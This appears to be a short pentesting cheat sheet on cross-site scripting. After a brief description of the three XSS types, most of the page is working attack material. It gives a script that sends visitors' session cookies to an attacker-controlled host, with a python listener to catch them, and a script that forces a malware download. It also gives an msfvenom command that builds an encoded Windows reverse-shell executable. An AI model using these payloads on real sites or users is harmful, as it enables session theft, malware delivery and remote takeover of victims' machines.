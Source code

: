 ﻿Vulnerability that allows the attacker to compromise the interaction between a user and the web application

There are three main types of XSS attacks. These are:

- Reflected XSS, where the malicious script comes from the current HTTP request.
- Stored XSS, where the malicious script comes from the website's database.
DOM-based XSS, where the vulnerability exists in client-side code rather than server-side code.
# Payloads
## Simple
    <script>alert('XSS')</script>

## Cookie forwarding
    <script>document.write('<img src="http://<attacker-ip>:<listening-port>/?'+document.cookie+'" />');</script>

### Listening with python http server
    python3 -m http.server <listening-port>

Will allow to get the session cookies of users

## Malware download

    <script>var link = document.createElement('a');
    link.href = 'http://<attacker-ip>/document.exe'; // document.exe is the malware
    link.download = '';
    document.body.appendChild(link);
    link.click();</script>

Create a shell reversal with `msfvenom`

    msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker listening port> EXITFUNC=thread -f exe -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai > /var/www/html/document.exe
